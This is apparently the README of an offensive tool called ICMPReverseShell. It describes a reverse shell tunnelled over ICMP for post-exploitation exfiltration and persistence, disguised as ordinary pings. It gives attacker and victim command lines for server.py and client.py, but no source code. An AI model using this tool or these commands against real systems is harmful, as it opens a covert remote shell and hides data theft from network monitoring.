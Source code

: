 # ICMPReverseShell

Reverse shell over icmp, this could be used as part of post-exploitation exfihiltration and persistance, to mask traffic as simple pings.


# Usage
attacker: sudo python3 server.py -i {interface} -d {victim address}

victim: sudo python3 client.py -i {interface} -d {attacker address}
